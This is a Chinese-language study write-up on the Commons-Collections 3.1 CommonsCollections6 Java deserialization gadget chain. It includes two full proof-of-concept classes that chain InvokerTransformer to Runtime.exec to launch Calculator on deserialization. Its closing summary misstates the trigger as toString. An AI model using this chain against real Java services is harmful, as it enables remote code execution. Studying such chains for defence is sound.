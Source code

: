 # 环境搭建
> 1. `JDK`版本：JDK1.8u66(暂无限制)
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## HashSet
> `HashSet`是一个无序的、不允许有重复元素的集合，本质上就是由`HashMap`实现的，跟`HashMap`一样，都是一个存放链表的数组，`HashSet`中的元素都存放在`HashMap`的`key`上面，而`value`中的值都是统一的一个`private static final Object PRESENT = new Object();`，在`HashSet`的`readObject`方法中会调用其内部`HashMap`的`put`方法，将值放在`key`上

<img src="./Java安全学习-Commons-Collections4567/17.png" alt="">

# CommonsCollections6 分析
> 在`CommonsCollections5`中，通过对`TiedMapEntry#toString`方法的调用，触发了`TiedMapEntry#getValue`，继而触发了`LazyMap#get`来完成后半段的调用；而在`CommonsCollections6`中则是通过`TiedMapEntry#hashCode`触发对`TiedMapEntry#getValue`的调用，但是需要找到一个触发`hashcode()`方法的点，因此利用前置知识中的`HashSet()`方法来触发`hashCode()`方法

> 在`HashSet#readObject`方法中，跟进`put()`方法，进入`java.util.HashMap`中调用`put()`方法，接着调用`hash()`方法，进而调用`key.hashCode()`，这里只需要让`key`为`TiedMapEntry`对象即可

<img src="./Java安全学习-Commons-Collections4567/18.png" alt="">

<img src="./Java安全学习-Commons-Collections4567/19.png" alt="">

> 但是在实际利用是需要解决一个问题，那就是在调用`put`方法的时候就触发命令执行的问题，P牛对此的解决方法是`outerMap.remove("h3rmesk1t");`，成功在反序列化的时候也触发了命令执行

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:38 下午
 */
public class FakeDemo {

    public static void fakeDemo() throws IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            fakeDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./Java安全学习-Commons-Collections4567/20.png" alt="">

<img src="./Java安全学习-Commons-Collections4567/21.png" alt="">

## POC
> 为了解决上述出现的问题，在构造`LazyMap`的时候先构造一个`fakeTransformers`对象，等最后⽣成`Payload`的时候，再利用反射将真正的`transformers`替换进去

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:29 下午
 */
public class CommonsCollections6Gadget1 {

    public static void CC6() throws IllegalAccessException, NoSuchFieldException {
        Transformer[] fakeTransformers = new Transformer[] {};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        //map.clear();

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC6();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./Java安全学习-Commons-Collections4567/22.png" alt="">

# 调用链

```java
HashSet.readObject()/HashMap.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                LazyMap.get()
                    ChainedTransformer.transform()
                        InvokerTransformer.transform()
```

# 总结
> 反序列化调用`TiedMapEntry`的`toString`方法，间接调用`LazyMap`的`hashCode`方法，触发了后续的`Transformer`恶意执行链